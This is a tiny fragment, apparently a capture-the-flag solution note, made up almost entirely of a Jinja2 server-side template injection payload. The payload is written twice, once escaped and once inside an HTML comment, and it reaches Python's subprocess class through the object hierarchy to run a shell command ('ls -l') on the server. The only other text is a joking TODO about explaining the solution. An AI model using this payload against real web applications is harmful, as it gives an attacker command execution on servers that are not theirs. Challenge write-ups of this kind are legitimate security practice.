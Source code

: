 # TODO: explain the solution lmao

{{''.\_\_class\_\_.\_\_mro\_\_[1].\_\_subclasses\_\_()[367]('ls -l', shell=True, stdout=-1).communicate()[0] }}
<!-- 
{{''.__class__.__mro__[1].__subclasses__()[367]('ls -l', shell=True, stdout=-1).communicate()[0] }}
 -->